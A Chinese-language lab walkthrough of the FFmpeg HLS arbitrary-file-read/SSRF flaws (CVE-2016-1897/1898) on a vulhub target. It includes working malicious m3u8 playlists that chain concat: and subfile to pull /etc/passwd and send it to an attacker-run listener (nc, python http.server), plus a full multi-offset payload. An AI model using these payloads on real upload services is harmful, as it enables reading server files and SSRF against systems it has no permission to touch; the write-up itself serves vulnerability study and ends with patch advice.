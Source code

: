# ffmpeg 任意文件读取漏洞/SSRF漏洞 （CVE-2016-1897/CVE-2016-1898）

## 原文链接&靶场链接

http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html

https://blog.csdn.net/EC_Carrot/article/details/117510184

https://www.freebuf.com/articles/web/258320.html

https://vulhub.org/#/environments/ffmpeg/CVE-2016-1897/

## 影响范围

- FFmpeg 2.8.x < 2.8.5
- FFmpeg 2.7.x < 2.7.5
- FFmpeg 2.6.x < 2.6.7
- FFmpeg 2.5.x < 2.5.10

## 什么是FFmpeg

FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

## 漏洞概述

在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。

这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样。

## 什么是HLS

漏洞是出现在解析HLS流媒体文件时的问题,所以必须先了解HLS

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

如图所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

```
#EXTM3U 标签是m3u8的文件头，开头必须要这一行
#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
#EXT-X-VERSION:2 该标签可有可无
#EXTINF:6, 表示该一段TS流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。
```

## 漏洞复现

启动靶场后访问192.168.123.133:8080,一个上传页面

![image-20220501162242565](D:\长亭\笔记\image-20220501162242565.png)



由于vulhub并没有讲述该漏洞如何复现，我们需要进入环境查看源码

```php
cat index.php 
<?php
if(!empty($_FILES)) {
    $filename = escapeshellarg($_FILES['file']['tmp_name']);
    $newname = './' . uniqid() . '.mp4';
    shell_exec("ffmpeg -i $filename $newname");
}
```

可以看到实际上只是借用了 ffmpeg -i 这个命令来处理视频文件。





首先构造一个恶意的 m3u8 的文件(用记事本编写，保存为`.m3u8`后缀)：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://your_ip:9999/test.txt
#EXT-X-ENDLIST
```

```
参数说明
#EXTM3U 标签是 m3u8 的文件头，开头必须要这一行
#EXT-X-MEDIA-SEQUENCE 表示每一个media URI 在 PlayList中只有唯一的序号，相邻之间序号+1
#EXTINF:10.0, 表示该一段 TS 流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
```

由于`FFMpeg` 去请求 TS 流文件（URL）时，`FFMpeg` 不会判断里面的流地址，直接请求。所以我们可以试想，用`FFMpeg`内自带的concat函数，将一个不包含文件结束符的文件与file协议读取的文件衔接起来，请求回攻击机，就能够达到读取任意文件的效果！

### 步骤一

在我们自己的web服务器上创建一个back.txt，文本内容是m3u8的格式，其中不包含文本结束符

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://192.168.123.128:9999/?
```

开启http服务

```
python3 -m http.server 8888
```

监听9999端口

```
nc -lvnp 9999
```

### 步骤二

上传恶意upload.m3u8文件

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|file:///etc/passwd
#EXT-X-ENDLISTa
```



web端读取到数据

![image-20220501171153607](D:\长亭\笔记\image-20220501171153607.png)

### 步骤三

可以发现以上的操作方式，只能将 /etc/passwd 数据中的第一行带外出来，但是后面的内容还是没有读出来，因此我们借助其他函数进行进一步利用。ffmpeg 还提供了 subfile 函数，其中 Start 后是开始截取的偏移量，以字节为单位，end 是结束的偏移量。

```
subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB
Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。

既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。
```

只需要改恶意的 upload.m3u8 文件

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|subfile,,start,0,end,31,,:///etc/passwd|subfile,,start,32,end,79,,:///etc/passwd
#EXT-X-ENDLIST
```

在逐渐增加 subfile 偏移量的测试过程中，发现超过一定长度后，数据读取部分不再增加。猜测可能和 URL 长度或者和换行符有关。

在不断测试的过程中，最终发现，与 URL 长度，m3u8 请求 URL 都无关系，也没有 32 字节的限制。实际上 concat 连接 URL 时是不能包含换行符的。/etc/passwd 文件存储过程中换行符 \n 是占一个字符的，所以无论是通过 file 协议，还是 subfile 切片，只要是读取到 \n 则中断，后面的内容无法输出。

按照这个思路，我们能只需要通过 subfile 读取文件时，跳过 \n 符号，不断根据返回的数据进行调试，最终可以读取到完整的数据。以如下的 /etc/passwd 的文件为例，附上 payload 参考：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|subfile,,start,0,end,31,,:///etc/passwd|subfile,,start,32,end,79,,:///etc/passwd|subfile,,start,80,end,116,,:///etc/passwd|subfile,,start,117,end,153,,:///etc/passwd|subfile,,start,154,end,188,,:///etc/passwd|subfile,,start,189,end,236,,:///etc/passwd|subfile,,start,237,end,284,,:///etc/passwd|subfile,,start,285,end,329,,:///etc/passwd|subfile,,start,330,end,373,,:///etc/passwd|subfile,,start,374,end,423,,:///etc/passwd|subfile,,start,424,end,475,,:///etc/passwd|subfile,,start,476,end,518,,:///etc/passwd|subfile,,start,519,end,571,,:///etc/passwd|subfile,,start,572,end,624,,:///etc/passwd|subfile,,start,625,end,686,,:///etc/passwd|subfile,,start,687,end,735,,:///etc/passwd|subfile,,start,736,end,817,,:///etc/passwd|subfile,,start,818,end,876,,:///etc/passwd|subfile,,start,877,end,918,,:///etc/passwd|subfile,,start,919,end,965,,:///etc/passwd
#EXT-X-ENDLIST
```

![image-20220501174002759](D:\长亭\笔记\image-20220501174002759.png)

## 修复

目前该漏洞已在FFMpeg**2.8.5**中修复，请广大用户马上升级
